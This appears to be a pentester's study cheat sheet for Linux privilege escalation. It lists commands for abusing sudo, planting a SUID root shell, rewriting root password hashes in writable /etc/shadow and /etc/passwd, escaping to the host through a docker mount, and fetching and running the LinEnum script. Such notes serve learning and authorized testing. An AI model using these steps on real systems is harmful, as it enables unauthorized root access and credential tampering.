 					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
`ls -l /etc/passwd`					is /etc/passwd writeable?
- openssl passwd password			      Generate password hash
- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

				Suid
Find all Suids `find / -perm -u=s -type f 2>/dev/null`

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				Capabilities
## Identifying Capabilities
`getcap -r / 2>/dev/null`

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt



				Misc
-- https://gtfobins.github.io/